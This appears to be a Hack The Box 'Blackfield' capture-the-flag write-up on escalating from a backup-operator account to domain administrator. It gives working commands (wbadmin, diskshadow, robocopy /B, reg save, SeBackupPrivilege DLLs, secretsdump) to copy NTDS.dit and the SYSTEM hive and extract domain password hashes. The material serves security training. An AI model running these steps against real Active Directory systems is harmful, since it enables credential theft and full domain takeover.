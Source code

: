 
# Elevating Privilege svc_backup -> Administrator

## Enumeration
Looking at the privileges of our user we find **SeBackupPrivilege** & **SeRestoreePrivilege** which are very powerful privileges that allows the user to access directories/files that he doesn’t own or doesn’t have permission to.
> This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```
The user **svc_backup** is a member of **Backup Operators Groups** and hence has the **Backup privileges** which allows him to backup and restore files on the system, read and write files on the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
### Attack Scenario
- Grab a copy of **NTDS.dit** file, a database that stores Active Directory users credentials.
- Next, we will grab **SYSTEM hive** file which contains System boot key essential to decrypt the NTDS.dit
- Using Impacket’s secretsdump script to extract NTLM hashes of all the users in the domain from NTDS.dit

## PrivEsc Method #1 - wbadmin

For the first method, we will use **wbadmin** a Windows command line tool which enables us back up and restore operating system, volumes, files, folders, and applications.

It is not recommended to Backup and Restore the file in the same disk, so first we will first create a shadow copy of disk and backup the **ntds.dit** from the **c:\windows\ntds\ntds.dit** and store it inside SMB share **C$**

We could also achieve this by hosting our own SMB share from our machine but I preferred using SMB share **C$** of the host itself, since we don’t have an interactive session we’ll be using **-quiet** flag which wont ask us for user input to start the backup operation.

### NTDS.dit
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd \\10.10.10.192\C$\Windows\Temp
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp> mkdir CFX
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp\CFX> wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds
.dit -quiet
```
Now that we have obtained **WindowsImageBackup** of **NTDS.dit** file inside the SMB share, we’ll recovery the file inside our directory **C:\Users\svc_backup\Documents**

For recovering the backup we need the backup version:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 10/5/2020 3:27 PM
Backup location: Network Share labeled \\10.10.10.192\C$\Windows\Temp\CFX\
Version identifier: 10/05/2020-22:27
Can recover: Volume(s), File(s)

*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start recovery -version:10/05/2020-22:27 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Documents -notrestoreacl -quiet

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         10/5/2020  3:27 PM       18874368 ntds.dit
```
### SYSTEM hive
To extract the NTLM hashes from ntds.dit file, we’ll be needing SYSTEM hive file which contains the System boot key essential to decrypt the NTDS.dit.

Grabbing **SYSTEM**:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM
```
### Extracting NTLM hashes
We got both the files required to extract NTLM hashes of Domain accounts using Impacket’s secretsdump.py:
```console
┌─[✗]─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

## PrivEsc Method #2 - diskshadow
In second method, the strategy would be the same to grab **NTDS.dit**, but instead we’ll use a different windows tool named **diskshadow**.

> Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS). This is a built-in function of Windows that can help us create a copy of a drive that is currently in use. 

First, we will be creating a **Distributed Shell File** or a **dsh** file which will consist of all the commands that are required by the diskshadow to run and create a full copy of our Windows Drive which we then can use to extract the **ntds.dit** file from. In this file, we are instructing the **diskshadow** to create a copy of the **C:** Drive into a **w:** Drive with **mydrive** as its alias. The Drive Alias and Character can be anything you want. After creating this dsh file, we need to use the **unix2dos** to convert the encoding and spacing of the dsh file to the one that is compatible with the Windows Machine.
```console
set context persistent nowriters
add volume c: alias mydrive
create
expose %mydrive% w:
```
In local machine:
```console
┌─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $unix2dos shadow.dsh
```
Then execute the diskshadow and using the script file as its inputs.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s shadowscript.dsh
```

Now, to perform the task of copying the data of the NTDS.dit file, there are two ways to do it:
- robocopy
- Copy-FileSeBackupPrivilege

### robocopy

I’ll now copy the file using **robocopy** with **/B** flag to ignore file permissions and use a new directory new_ntds to save the file:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /B w:\Windows\ntds .\new_ntds ntds.dit
```
### Copy-FileSeBackupPrivilege
An alternate way to copy files from the shadow drive **w:\** is by uploading **SeBackupPrivilegeUtils.dll** and **SeBackupPrivilegeCmdLets.dll** from [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) repo and importing them to our session.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll
```
Importing dll’s:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Now we can use **Copy-FileSeBackupPrivilege** to copy files from our Shadow drive to the desired directory:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege w:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
```
